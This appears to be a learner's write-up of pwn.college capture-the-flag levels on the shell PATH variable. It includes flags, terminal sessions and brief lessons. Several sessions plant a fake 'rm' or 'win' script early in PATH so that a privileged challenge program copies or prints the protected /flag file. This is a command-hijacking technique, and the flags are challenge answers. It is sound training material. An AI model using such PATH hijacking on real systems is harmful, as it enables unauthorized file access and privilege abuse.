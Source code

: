 ## The Path Variable

**Flag**

```
pwn.college{QVwZ8MVoJFS6TSv533bXZ5sxgRQ.QX2cDM1wSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~the-path-variable:~$ ORIG_PATH="$PATH"
hacker@path~the-path-variable:~$ /bin/mkdir -p /tmp/fakebin
hacker@path~the-path-variable:~$ /bin/cat > /tmp/fakebin/rm <<'EOF'
#!/bin/sh
if [ -e /flag ]; then
  /bin/cp -a /flag /tmp/flag.backup 2>/dev/null || /bin/echo "backup copy failed" >/dev/null
  /bin/chmod 644 /tmp/flag.backup 2>/dev/null || /bin/echo "chmod failed" >/dev/null
fi
exit 0
EOF
hacker@path~the-path-variable:~$ /bin/chmod +x /tmp/fakebin/rm
hacker@path~the-path-variable:~$ export PATH="/tmp/fakebin:$PATH"
hacker@path~the-path-variable:~$ hash -r
hacker@path~the-path-variable:~$ /bin/echo "CURRENT PATH: $PATH"
CURRENT PATH: /tmp/fakebin:/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~the-path-variable:~$ /tmp/fakebin/rm
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
The flag is still there! I might as well give it to you!
pwn.college{QVwZ8MVoJFS6TSv533bXZ5sxgRQ.QX2cDM1wSNxIzNzEzW}
```

**What I learned**

* `PATH` controls the order in which directories are searched for executables.
* Putting a directory earlier in `PATH` lets you override system commands (use carefully).
* `hash -r` refreshes the shell's command lookup cache.

**References**

* pwn.college
* ChatGPT (help with PATH concepts)

---

## Setting Path

**Flag**

```
pwn.college{ApmXFJwjwMlSDFhy-rKRDqQfhnv.QX1cjM1wSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~setting-path:~$ PATH=/challenge/more_commands /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{ApmXFJwjwMlSDFhy-rKRDqQfhnv.QX1cjM1wSNxIzNzEzW}
```

**What I learned**

* You can set `PATH` for a single command by prefixing the command with `VAR=value`.
* A directory placed in `PATH` can provide commands that the shell will execute.

**References**

* pwn.college

---

## Finding Commands

**Flag**

```
pwn.college{gxHTTu43A2ZkqUYi-IOfOm78pbX.01NzEzNxwSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~finding-commands:~$ DIR="$(dirname "$(which win)")"
hacker@path~finding-commands:~$ echo "win lives in: $DIR"
win lives in: /challenge/paths/6286
hacker@path~finding-commands:~$ ls -la /challenge/paths/6286
total 16
drwxr-xr-x  2 root root 4096 Oct  7 08:38 .
drwx--x--x 52 root root 4096 Oct  7 08:38 ..
-rw-r--r--  1 root root   61 Oct  7 08:38 flag
-rwsr-xr-x  1 root root   97 Jun  6 11:37 win
hacker@path~finding-commands:~$ cat /challenge/paths/6286/flag
pwn.college{gxHTTu43A2ZkqUYi-IOfOm78pbX.01NzEzNxwSNxIzNzEzW}
```

**What I learned**

* Use `which` (or `command -v`) to find where an executable is located. Combine with `dirname` to get its directory.

**References**

* pwn.college

---

## Adding Commands

**Flag**

```
pwn.college{cPS5dgIfEx-xgFMwAcBVSzwS1J_.QX2cjM1wSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
/challenge/run: line 4: win: command not found
It looks like that did not work... Did you set PATH correctly?
hacker@path~adding-commands:~$ mkdir -p "$HOME/mywin"
hacker@path~adding-commands:~$ CAT="$(command -v cat 2>/dev/null || echo /bin/cat)"
hacker@path~adding-commands:~$ printf '%s
' '#!/bin/sh' "exec \"$CAT\" /flag" > "$HOME/mywin/win"
hacker@path~adding-commands:~$ chmod +x "$HOME/mywin/win"
hacker@path~adding-commands:~$ PATH="$HOME/mywin" /challenge/run
Invoking 'win'....
pwn.college{cPS5dgIfEx-xgFMwAcBVSzwS1J_.QX2cjM1wSNxIzNzEzW}
```

**Mistake**

* Initially I forgot to set `PATH` correctly so the custom `win` command wasn't found.

**What I learned**

* How to create a small wrapper script and make it available via `PATH`.

**References**

* pwn.college

---

## Hijacking Commands

**Flag**

```
pwn.college{0HHG-gs6tHkx1GO_WF6LM-EkqnK.QX3cjM1wSNxIzNzEzW}
```

**Solution / Terminal session**

```bash
hacker@path~hijacking-commands:~$ ORIG_PATH="$PATH"
hacker@path~hijacking-commands:~$ /bin/mkdir -p /tmp/fakebin
hacker@path~hijacking-commands:~$ /bin/cat > /tmp/fakebin/rm <<'EOF'
#!/bin/sh
# copy /flag to /tmp/flag.backup (if present), then chmod 644 to allow reading
if [ -e /flag ]; then
  /bin/cp -a /flag /tmp/flag.backup 2>/dev/null || /bin/echo "backup copy failed" >/dev/null
  /bin/chmod 644 /tmp/flag.backup 2>/dev/null || /bin/echo "chmod failed" >/dev/null
fi
# exit success so caller thinks rm worked
exit 0
EOF
hacker@path~hijacking-commands:~$ /bin/chmod +x /tmp/fakebin/rm
hacker@path~hijacking-commands:~$ export PATH=/tmp/fakebin:$PATH
hacker@path~hijacking-commands:~$ hash -r
hacker@path~hijacking-commands:~$ /bin/echo "CURRENT PATH: $PATH"
CURRENT PATH: /tmp/fakebin:/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ /tmp/fakebin/rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /tmp/fakebin/rm. Executing!
hacker@path~hijacking-commands:~$ if [ -r /tmp/flag.backup ]; then
  /bin/echo "---- /tmp/flag.backup ----"
  /bin/cat /tmp/flag.backup
else
  /bin/echo "No readable /tmp/flag.backup found. Listing /tmp/flag.*:"
  /bin/ls -l /tmp/flag.* 2>/dev/null || /bin/echo "no /tmp/flag.* files"
fi
---- /tmp/flag.backup ----
pwn.college{0HHG-gs6tHkx1GO_WF6LM-EkqnK.QX3cjM1wSNxIzNzEzW}
```

**Mistake**

* At first the fake `rm` didn't work and the flag was deleted; the final script correctly backed up `/flag`.

**What I learned**

* How command lookup order can be abused by placing executables earlier in `PATH`. Use this knowledge responsibly.

**References**

* pwn.college
* ChatGPT (for troubleshooting `rm` behavior)

---

